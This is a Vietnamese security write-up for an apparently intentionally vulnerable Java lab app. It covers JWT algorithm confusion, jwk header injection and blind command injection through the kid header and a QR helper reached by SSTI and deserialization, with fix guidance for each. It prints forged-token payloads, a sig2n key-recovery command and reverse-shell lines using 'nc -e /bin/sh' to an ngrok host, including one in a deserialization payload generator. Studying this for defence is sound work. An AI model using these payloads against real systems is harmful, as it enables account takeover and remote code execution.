        user.getName(),
        user.getEmail());
```

```java
// src/main/java/org/example/security/JwtUtils.java
return Jwts.builder()
        .setHeaderParam("kid", keyId)
        .setSubject(email)
        .setIssuer(issuer)
        .setIssuedAt(now)
        .setExpiration(new Date(now.getTime() + expirationTimeMs))
        .signWith(privateKey, SignatureAlgorithm.RS256)
        .compact();
```

Normal flow:



### 3.2. `jwk` attack source -> sink



Payload shape:

```json
{
  "header": {
    "alg": "RS256",
    "typ": "JWT",
    "jwk": {
      "kty": "RSA",
      "n": "<attacker-public-modulus-base64url>",
      "e": "AQAB"
    }
  },
  "payload": {
    "sub": "admin@example.com",
    "iss": "ktv-airline",
    "iat": 1710000000,
    "exp": 1890000000
  }
}
```

Signal:

| Điều kiện                                           | Kết quả                                 |
| --------------------------------------------------- | --------------------------------------- |
| `jwk` hợp lệ và token ký bằng private key tương ứng | `validateJwtToken(...)` true            |
| `sub` là email user tồn tại                         | `AuthTokenFilter` set `SecurityContext` |
| `sub` là admin trong DB                             | Có `ROLE_ADMIN`                         |

### 3.3. Algorithm confusion source -> sink



Payload shape:

```json
{
  "header": {
    "alg": "HS256",
    "typ": "JWT"
  },
  "payload": {
    "sub": "admin@example.com",
    "iss": "ktv-airline",
    "iat": 1710000000,
    "exp": 1890000000
  }
}
```

#### 3.3.1. Derive public key từ 2 RS256 token

Nếu attacker có ít nhất 2 JWT hợp lệ được server ký bằng cùng RSA private key, có thể khôi phục RSA public key candidate từ chữ ký RS256. Mục tiêu của bước này không phải lấy private key, mà lấy đúng public key để dùng lại làm HMAC secret trong nhánh HS256 confusion.

Điểm dễ sai khi dùng key đã derive:

| Điểm | Ghi chú |
|---|---|
| Cần ít nhất 2 token | Một chữ ký chỉ cho một bội số của `n`, `gcd` cần tối thiểu hai giá trị |
| `e` thường là `65537` | Nếu token/server dùng exponent khác thì phải thử đúng `e` |
| `key_size` phải đúng | RS256 encoded message phụ thuộc độ dài modulus, thường 2048-bit là `256` bytes |
| JWT signing input | Hash trên đúng chuỗi `base64url(header) + "." + base64url(payload)` |
| PEM bytes | Backend dùng `toPublicKeyPem(publicKey).getBytes(StandardCharsets.US_ASCII)` |
| Format PEM | Cần `-----BEGIN PUBLIC KEY-----`, wrap base64 64 ký tự, `-----END PUBLIC KEY-----`, có newline cuối |

Render PEM phải match cách backend tạo:

```java
// src/main/java/org/example/security/JwtUtils.java
private String toPublicKeyPem(PublicKey key) {
    String encodedKey = Base64.getMimeEncoder(64, "\n".getBytes(StandardCharsets.US_ASCII))
            .encodeToString(key.getEncoded());

    return "-----BEGIN PUBLIC KEY-----\n"
            + encodedKey
            + "\n-----END PUBLIC KEY-----\n";
}
```

Điều kiện quan trọng: secret HS256 phải là đúng bytes PEM mà backend tạo bằng `toPublicKeyPem(publicKey)`, không chỉ là một public key RSA tương đương về mặt toán học. Khác newline/header/base64 wrap là signature fail.

Có thể dùng `portswigger/sig2n` để rã key:
```bash
docker run --rm -it portswigger/sig2n <token1> <token2>
```

Key thực tế được rã từ 2 JWT:
```text
LS0tLS1CRUdJTiBQVUJMSUMgS0VZLS0tLS0KTUlJQklqQU5CZ2txaGtpRzl3MEJBUUVGQUFPQ0FROEFNSUlCQ2dLQ0FRRUFqOG5DNG5WU0RvUjlFUEVHaHRvTQphT1A0SHVERm95YmNtMzVaUkNSMnM4WUMzY2RldzUwbWsyaklUelN6NkFXOGhUS3pMenJBUUR3ZmhOS3VlekRzCmpiVkgyRXk1UHNGVHV4QzdVR0JwSTAva2x2MWtqVWlKcUpCNlJJaDdEZkIvUmdvMTB1eTdFaXBDdXZEN3hWNksKR0x0akFSMkd6b3J2K3d6UnpQbGw0OWNOS3dlVUhyZU5ZTVFtUlVpSEFHQWxHVW1NRUxSSGc0NWRvR2ExSjQ5cQpkTG0vUVZhKzZVa0hya3IvMjhMYWZRNHFsckEzWFpIRFh0KzRnd0ZJQ0VKTVJzcXByOU84QytUdFdKeGNBY2RYCmpraUtTTUg3U2ZYa05ER1JwY09vbVVBYldoMEx2OG1PQkh2Mko5OURMUStPOHFDRGpnT3l6eDF1NEtxUmc0eWwKaVFJREFRQUIKLS0tLS1FTkQgUFVCTElDIEtFWS0tLS0tCg==
```
### 3.4. `kid` injection source -> sink



Payload shape:

```json
"kid": "; nc -e /bin/sh 0.tcp.ap.ngrok.io <port>; #"
```

Signal:

| Signal                                                 | Ý nghĩa                                                          |
| ------------------------------------------------------ | ---------------------------------------------------------------- |
| netcat listener bắt reverse shell thành công           | `kid` đã đi vào shell command                                    |
| Token không validate nhưng shell vẫn xuất hiện         | Command execution xảy ra trước khi validation fail               |

---

## 4. Auth impact và boundary

JWT trong app không lưu role trong token. Sau khi token hợp lệ, filter lấy subject rồi load user từ DB:

```java
// src/main/java/org/example/security/AuthTokenFilter.java
if (jwt != null && jwtUtils.validateJwtToken(jwt)) {
    String username = jwtUtils.getUserNameFromJwtToken(jwt);

    UserDetails userDetails = userDetailsService.loadUserByUsername(username);
    UsernamePasswordAuthenticationToken authentication =
            new UsernamePasswordAuthenticationToken(
                    userDetails,
                    null,
                    userDetails.getAuthorities());
    SecurityContextHolder.getContext().setAuthentication(authentication);
}
```

```java
// src/main/java/org/example/security/UserDetailsImpl.java
public Collection<? extends GrantedAuthority> getAuthorities() {
    Role resolvedRole = role == null ? Role.USER : role;
    return Collections.singletonList(new SimpleGrantedAuthority("ROLE_" + resolvedRole.name()));
}
```

Implication:

| Trường hợp | Impact |
|---|---|
| Forge token với `sub` không tồn tại | Token có thể verify nhưng filter không set auth thành công |
| Forge token với `sub` user thường | Nhận quyền `ROLE_USER` từ DB |
| Forge token với `sub` admin tồn tại | Nhận quyền `ROLE_ADMIN` từ DB |
| `kid` command injection | Side effect có thể xảy ra ngay cả khi auth cuối cùng fail |

---

## 5. Fix guidance đặt cạnh sink

### 5.1. Fix Algorithm Confusion

```java
/*
 * FIXED CODE:
 * This service issues RS256 tokens only. Do not let the attacker-controlled
 * alg header switch verification to HS256/HS384/HS512.
 */
if (!SignatureAlgorithm.RS256.getValue().equals(header.getAlgorithm())) {
    throw new UnsupportedJwtException("Only RS256 tokens are supported");
}

Key verificationKey = verificationKeys.get(header.getKeyId());
if (verificationKey == null) {
    throw new UnsupportedJwtException("Unknown JWT kid");
}
return verificationKey;
```

Nếu cần legacy HS256 trong migration, dùng secret riêng:

```java
/*
 * FIXED CODE:
 * Use a separate random server-side HMAC secret. Never derive an HMAC secret
 * from an RSA public key, certificate, PEM, JWK, or any public material.
 */
this.legacyVerificationKey = Keys.hmacShaKeyFor(Decoders.BASE64.decode(jwtLegacyHmacSecret));
```

### 5.2. Fix `jwk`/`jku`/`x5u` header injection

```java
/*
 * FIXED CODE:
 * Reject embedded or remote header-supplied verification keys. Use kid only as
 * a selector into a server-controlled key store or pinned JWKS cache.
 */
if (header.containsKey("jwk") || header.containsKey("jku") || header.containsKey("x5u")) {
    throw new UnsupportedJwtException("Embedded JWT verification keys are not accepted");
}
```

### 5.3. Fix `kid` lookup

```java
/*
 * FIXED CODE:
 * Validate kid and resolve it from a server-controlled map. Unknown kid must
 * fail closed; do not shell out.
 */
String kid = header.getKeyId();
if (!StringUtils.hasText(kid) || !kid.matches("^[A-Za-z0-9._-]+$")) {
    throw new UnsupportedJwtException("Invalid JWT kid");
}

Key verificationKey = verificationKeys.get(kid);
if (verificationKey == null) {
    throw new UnsupportedJwtException("Unknown JWT kid");
}
return verificationKey;
```

Nếu key files thật sự cần thiết:

```java
/*
 * FIXED CODE:
 * Resolve files with Path under a fixed directory and read directly. No shell.
 */
Path keyDir = Paths.get("jwt-keys").toAbsolutePath().normalize();
Path keyPath = keyDir.resolve(kid + ".pem").normalize();
if (!keyPath.startsWith(keyDir)) {
    throw new UnsupportedJwtException("Invalid JWT kid path");
}
return parsePublicKey(Files.readString(keyPath, StandardCharsets.US_ASCII));
```

---

## 6. Tổng kết

JWT attack flow trong WebLab gồm ba lỗi cùng gốc: tin header do client điều khiển trong lúc chọn thuật toán và key verify.

1. `alg=HS256` khiến backend dùng HMAC key derived từ RSA public key PEM: **Algorithm Confusion**.
2. Header `jwk` cho phép attacker tự nhúng public key và ký token bằng private key của mình: **JWK header injection**.
3. Header `kid` unknown đi vào command template rồi chạy qua `/bin/sh -c`: **KID command injection**.
4. Auth cuối cùng phụ thuộc `sub=email` có tồn tại trong DB và role thật của user đó.

Kết luận phát hiện:

```text
Nếu JWT verification dùng alg/jwk/kid từ header để chọn algorithm/key
mà không allowlist/fail-closed trên server-side trust store,
đánh dấu JWT header parameter injection hoặc algorithm confusion.

Nếu kid đi vào command string rồi chạy qua shell,
đánh dấu command injection trong JWT key lookup.
```


# Command Injection

---

## 1. Kết luận nhanh cho Blind Command Injection

| Hạng mục | Giá trị |
|---|---|
| Số sink command execution | 2 sink |
| Sink A - chính | `JwtUtils.resolveKeyFromKidCommand(kid)` |
| Sink B - hidden chain | `QRCodeHelper.renderQrCode(qrContent)` |
| Dangerous function sink A | `new ProcessBuilder("/bin/sh", "-c", command).start()` |
| Dangerous function sink B | `Runtime.getRuntime().exec(new String[] { "/bin/sh", "-c", command })` |
| Source chính của Blind CI | JWT header `kid` trong `Authorization: Bearer <jwt>` |
| Source vào hidden QR sink | SSTI template gọi `QRCodeHelper`, hoặc Deserialize gadget gọi `BookingRequest.getQrCode()` |
| Normal business sources | Đã có guard cho signup/update email và booking `quote/hold/confirm` promotion code |
| Blind signal | Không trả stdout trực tiếp; xác nhận bằng delay, file marker, DNS/OOB, log hoặc side effect |
| File quan trọng | `JwtUtils`, `QRCodeHelper`, `BookingRequest`, `BookingServiceImpl`, `BookingController`, `AuthController`, `UserController`, `Payload/ModernRomePayloadGenerator.java` |

> **Nhận định:** Blind Command Injection chính của WebLab là JWT `kid` injection. `QRCodeHelper` vẫn là command execution sink thật, nhưng hiện được giữ như hidden final sink cho hai chain khác: SSTI và Insecure Deserialization. Các nguồn business bình thường đã được guard để không biến QR sink thành Blind Command Injection chính.

---

## 2. Bản đồ flow tổng quan



---

## 3. Sink -> Source

### 3.1. Fuzz dangerous function để tìm sink candidate

Theo rule hiện tại, hướng sink -> source bắt đầu bằng fuzz/search dangerous functions trước, sau đó mới trace ngược về input.

| Nhóm fuzz | Pattern cần tìm | Kết quả trong repo | Đánh giá |
|---|---|---|---|
| Java command execution | `Runtime.getRuntime().exec` | `QRCodeHelper.renderQrCode(...)` | Command execution sink B |
| Java subprocess | `new ProcessBuilder` | `JwtUtils.resolveKeyFromKidCommand(...)` | Command execution sink A |
| Shell execution | `"/bin/sh", "-c"` | Cả `JwtUtils` và `QRCodeHelper` | Shell metacharacter có hiệu lực |
| String-built command | `replace("{kid}", kid)` | `JwtUtils` | JWT header đi vào command template |
| String concatenation | `"qrencode ... " + resolvedContent` | `QRCodeHelper` | QR content đi vào shell command |
| Template callable | `TemplateMethodModelEx.exec` | `QRCodeHelper.exec(...)` | Freemarker có thể gọi helper như function |
| Deserialization entry | `ObjectInputStream.readObject()` | `BookingServiceImpl.importDraft(...)` | Gadget có thể gọi getter trước business validation |

Kết quả fuzz có 2 sink cần ghi nhận:

| Sink | File | Function | Vai trò hiện tại |
|---|---|---|---|
| Sink A | `src/main/java/org/example/security/JwtUtils.java` | `resolveKeyFromKidCommand(kid)` | Blind Command Injection chính |
| Sink B | `src/main/java/org/example/util/QRCodeHelper.java` | `renderQrCode(qrContent)` | Hidden final sink cho SSTI + Deserialize |

---

### 3.2. Sink A - JWT `kid` command lookup

Code sink:

```java
// src/main/java/org/example/security/JwtUtils.java
String kid = header.getKeyId(); // [SOURCE: attacker-controlled JWT header]
if (StringUtils.hasText(kid) && !verificationKeys.containsKey(kid)) {
    Key commandLoadedKey = resolveKeyFromKidCommand(kid);
    if (commandLoadedKey != null) {
        return commandLoadedKey;
    }
}

private Key resolveKeyFromKidCommand(String kid) {
    String command = kidKeyCommandTemplate.replace("{kid}", kid); // [COMMAND BUILD]

    Process process = new ProcessBuilder("/bin/sh", "-c", command)
            .redirectErrorStream(true)
            .start(); // [SINK]
    ...
}
```

Config command template:

```properties
app.jwt.kid-key-command-template=${JWT_KID_KEY_COMMAND_TEMPLATE:cat ./jwt-{kid}.pem}
```

Trace ngược từ sink về source:



Điểm lỗi:

| Điểm | Vì sao nguy hiểm |
|---|---|
| `kid` là JWT header | Header do client tự tạo, không phải trust boundary an toàn |
| Unknown `kid` kích hoạt command lookup | Attacker chỉ cần dùng `kid` không có trong `verificationKeys` |
| `replace("{kid}", kid)` không validate | Shell metacharacter giữ nguyên |
| `/bin/sh -c` | `;`, `&&`, `|`, `$()`, backtick có ý nghĩa command |
| Output không trả về response | Phân loại blind, cần side effect/timing/OOB |

### 3.3. Sink B - `QRCodeHelper.renderQrCode(qrContent)`

Code sink:

```java
// src/main/java/org/example/util/QRCodeHelper.java
public String renderQrCode(String qrContent) {
    String resolvedContent = qrContent == null || qrContent.isBlank()
            ? "anonymous-member"
            : qrContent;
    String filename = "QR-" + Integer.toHexString(resolvedContent.hashCode()) + ".svg";
    Path outputDir = Paths.get(resolveUploadDir(), QR_UPLOAD_SUBDIR).toAbsolutePath().normalize();
    Path outputPath = outputDir.resolve(filename).normalize();

    String command = "qrencode -t SVG -o " + outputPath + " " + resolvedContent; // [COMMAND BUILD]
    Process process = Runtime.getRuntime().exec(new String[] { "/bin/sh", "-c", command }); // [SINK]
    ...
    return QR_URL_PREFIX + filename;
}
```

`QRCodeHelper` còn expose cho Freemarker:

```java
@Override
public Object exec(List arguments) throws TemplateModelException {
    if (arguments.isEmpty()) {
        return "";
    }

    return renderQrCode(toPlainString((TemplateModel) arguments.get(0)));
}
```

Trace ngược từ QR sink về hai source hợp lệ hiện tại:



Normal business paths đã được guard:

| Business path | Guard hiện tại | Tác dụng |
|---|---|---|
| `POST /api/v1/auth/signup` | `SAFE_SIGNUP_EMAIL` trong `AuthController` | Không cho tạo email chứa shell metacharacter |
| `PUT /api/v1/user` | `SAFE_PROFILE_QR_EMAIL` trong `UserController` | Không cho update email thành payload command |
| `POST /api/v1/booking/quote` | `rejectUnsafeBusinessPromotionCode(...)` | Chặn promotionCode ngoài `^[A-Z0-9_-]{1,32}$` |
| `POST /api/v1/booking/hold` | `rejectUnsafeBusinessPromotionCode(...)` | Chặn QR booking source thường |
| `POST /api/v1/booking/confirm` | `rejectUnsafeBusinessPromotionCode(...)` | Chặn direct confirm QR source thường |
| `POST /api/v1/booking/draft/import` | Không dùng guard controller | Giữ Deserialize lab flow |
| Freemarker custom theme | Không lọc trong helper | Giữ SSTI lab flow |

---

## 4. Source -> Sink

### 4.1. JWT `kid` source -> sink



Payload shape:

```json
{
  "alg": "RS256",
  "kid": "missing; touch /tmp/weblab-jwt-kid-ci; #",
  "typ": "JWT"
}
```

Expected blind signal:

| Signal | Ý nghĩa |
|---|---|
| `/tmp/weblab-jwt-kid-ci` xuất hiện | `kid` đã đi vào shell |
| Response có thể vẫn là 401/403 | Side effect xảy ra trong key resolution trước khi auth hoàn tất |
| `kid = missing; sleep 5; #` làm response chậm | Time-based blind signal |
| OOB/DNS callback | Dùng khi không đọc được filesystem/log |

### 4.2. SSTI source -> QRCodeHelper sink

Freemarker theme mặc định vẫn có callable helper:

```ftl
<#assign memberQr = "org.example.util.QRCodeHelper"?new()>
<#assign memberQrUrl = memberQr(email)>
```

Với SSTI/custom template, attacker không cần đi qua email business field; template có thể gọi helper trực tiếp với nội dung do attacker đặt trong template.



Ghi chú quan trọng:

| Điểm | Ý nghĩa |
|---|---|
| Email guard không phá SSTI | SSTI payload nằm trong template, không cần update email |
| QR helper vẫn tồn tại | `QRCodeHelper` vẫn là final sink cho object-chain/dev-supplied template |
| Response không trả stdout | Vẫn là blind nếu dùng command side effect |

### 4.3. Deserialize source -> QRCodeHelper sink

Deserialization entry:

```java
// src/main/java/org/example/serviceImpl/BookingServiceImpl.java
try (ObjectInputStream input = new ObjectInputStream(new ByteArrayInputStream(draftBytes))) {
    importedDraft = input.readObject(); // [DESERIALIZE SOURCE]
}
```

Getter chạm QR sink:

```java
// src/main/java/org/example/payload/BookingRequest.java
@JsonIgnore
public String getQrCode() {
    return new QRCodeHelper().renderQrCode(buildQrCodeContent());
}
```

Rome payload generator hiện đặt command trong `promotionCode`:

```java
// Payload/ModernRomePayloadGenerator.java
BookingRequest bookingRequest = new BookingRequest();
bookingRequest.setTransactionIds(Collections.singletonList(transactionId));
bookingRequest.setPromotionCode("; nc -e /bin/sh " + host + " " + port + " #");

ObjectBean innerObjectBean = new ObjectBean(BookingRequest.class, bookingRequest);
ObjectBean outerObjectBean = new ObjectBean(ObjectBean.class, innerObjectBean);
```

Flow:



Vì `draft/import` nhận bytes trực tiếp và deserialization xảy ra trước business-level validation, guard ở `/quote`, `/hold`, `/confirm` không chặn chain này.

---

## 5. Phân biệt 2 sink trong report

| Tiêu chí | Sink A - JWT `kid` | Sink B - `QRCodeHelper` |
|---|---|---|
| Vai trò | Blind Command Injection chính | Hidden command sink cuối |
| Entry source | JWT header `kid` | SSTI template hoặc serialized gadget |
| Function nguy hiểm | `ProcessBuilder("/bin/sh", "-c", command)` | `Runtime.exec(new String[]{"/bin/sh","-c",command})` |
| Input ghép command | `kid` qua command template | `qrContent/resolvedContent` |
| Output command | Dùng như key material/log, không trả response | Không trả stdout; trả QR URL/HTML/JSON |
| Business guard | Không có guard trước `kid` sink | Có guard cho email/promotionCode business path |
| PoC phù hợp | `kid="missing; touch /tmp/x; #"` | SSTI helper call hoặc Rome deserialization payload |
| Fix chính | Không shell lookup từ `kid`; map/file allowlist; fail closed | Không dùng shell; ProcessBuilder arg-list; không expose helper cho template; filter deserialization |

---

## 6. Payload kiểm chứng an toàn

### 6.1. JWT `kid` file marker

Header shape:

```json
{
  "alg": "RS256",
  "kid": "missing; touch /tmp/weblab-jwt-kid-marker; #",
  "typ": "JWT"
}
```

Kỳ vọng:

| Kết quả | Diễn giải |
|---|---|
| Marker file xuất hiện | Command side effect chạy trong key lookup |
| Token có thể fail validation | Vẫn là command injection vì side effect xảy ra trước kết luận auth |
| Không thấy stdout trong response | Blind CI |

### 6.2. JWT `kid` time-based

```text
kid = missing; sleep 5; #
```

Kỳ vọng: request bị delay tới gần timeout của key lookup, hoặc log báo `JWT kid key command timed out`.

### 6.3. QR hidden sink qua SSTI

Payload shape trong template lab:

```ftl
<#assign qr = "org.example.util.QRCodeHelper"?new()>
${qr("demo; touch /tmp/weblab-qr-ssti-marker; #")}
```

Kỳ vọng: response vẫn là HTML/QR URL, marker file hoặc timing chứng minh command side effect.

### 6.4. QR hidden sink qua Deserialize

Payload generator đã dùng `promotionCode` làm command carrier:

```java
bookingRequest.setPromotionCode("; nc -e /bin/sh " + host + " " + port + " #");
```

Kỳ vọng: khi import serialized payload, gadget gọi `BookingRequest.getQrCode()`, rồi command trong `QRCodeHelper` chạy trước khi app xử lý business response bình thường.

---

## 7. Fix guidance đặt cạnh sink

### 7.1. Fix Sink A - JWT `kid`

Không dùng `kid` để dựng shell command. `kid` chỉ được là selector vào key store do server kiểm soát:

```java
String kid = header.getKeyId();
if (!StringUtils.hasText(kid) || !kid.matches("^[A-Za-z0-9._-]+$")) {
    throw new UnsupportedJwtException("Invalid JWT kid");
}

Key verificationKey = verificationKeys.get(kid);
if (verificationKey == null) {
    throw new UnsupportedJwtException("Unknown JWT kid");
}
return verificationKey;
```

Nếu bắt buộc đọc key file, dùng `Path` trong fixed directory và không gọi shell:

```java
Path keyDir = Paths.get("jwt-keys").toAbsolutePath().normalize();
Path keyPath = keyDir.resolve(kid + ".pem").normalize();
if (!keyPath.startsWith(keyDir)) {
    throw new UnsupportedJwtException("Invalid JWT kid path");
}
return parsePublicKey(Files.readString(keyPath, StandardCharsets.US_ASCII));
```

### 7.2. Fix Sink B - QRCodeHelper

Không chạy `qrencode` qua `/bin/sh -c`; truyền argument tách rời:

```java
ProcessBuilder processBuilder = new ProcessBuilder(
        "qrencode",
        "-t", "SVG",
        "-o", outputPath.toString(),
        resolvedContent);
processBuilder.redirectErrorStream(true);
Process process = processBuilder.start();
```

Thêm content policy và timeout fail-closed:

```java
if (resolvedContent.length() > 256) {
    throw new IllegalArgumentException("QR content is too long");
}
if (!resolvedContent.matches("^[A-Za-z0-9@._,+: -]+$")) {
    throw new IllegalArgumentException("QR content contains unsupported characters");
}
if (!process.waitFor(3, TimeUnit.SECONDS)) {
    process.destroyForcibly();
    throw new IllegalStateException("QR generation timed out");
}
```

### 7.3. Fix source và chain control

| Source/chain | Fix |
|---|---|
| JWT `kid` | Validate allowlist, lookup từ map/file cố định, unknown `kid` fail closed |
| Freemarker SSTI | Không cho template tự `?new()` class tùy ý; dùng resolver an toàn và allowlist template |
| QR helper | Không expose helper nguy hiểm vào template; nếu cần thì expose safe shared variable |
| Deserialize | Dùng `ObjectInputFilter` chặt hoặc bỏ Java native serialization, chuyển sang JSON DTO |
| Profile email | Dùng DTO + strict email policy, không bind trực tiếp entity |
| Booking promotionCode | Whitelist format ở controller và promotion create/update |

---

## 8. Checklist review nhanh

| Câu hỏi | JWT `kid` sink | QRCodeHelper sink |
|---|---|---|
| Input attacker có đi vào command string không? | Có, `kid` | Có, `qrContent` |
| Command có chạy qua shell không? | Có, `ProcessBuilder('/bin/sh','-c',...)` | Có, `Runtime.exec(['/bin/sh','-c',...])` |
| Có trả stdout về response không? | Không ổn định/không trực tiếp | Không |
| Blind signal là gì? | Delay, marker file, OOB, log timeout | Delay, marker file, QR file/OOB |
| Normal source đã bị guard chưa? | Chưa, vì `kid` là source chính cần giữ vuln | Có, email và promotionCode business paths đã guard |
| Chain nào vẫn chạm sink? | JWT verification | SSTI và Deserialize |

---

## 9. Tổng kết

Blind Command Injection hiện cần ghi nhận đủ 2 sink:

1. **Sink A - JWT `kid` injection:** `kid` trong JWT header đi vào `kidKeyCommandTemplate`, sau đó chạy bằng `/bin/sh -c`. Đây là Blind Command Injection chính vì có thể tạo side effect ngay trong quá trình token validation.
2. **Sink B - `QRCodeHelper`:** `qrContent` đi vào command `qrencode` rồi chạy bằng `/bin/sh -c`. Sink này vẫn nguy hiểm nhưng hiện được giữ như hidden final sink cho SSTI và Deserialize; các source business như signup/update email và booking `promotionCode` thường đã được guard.

Kết luận phân loại:

```text
Nếu attacker-controlled input được nối vào command string rồi chạy qua /bin/sh -c,
đánh dấu Command Injection.

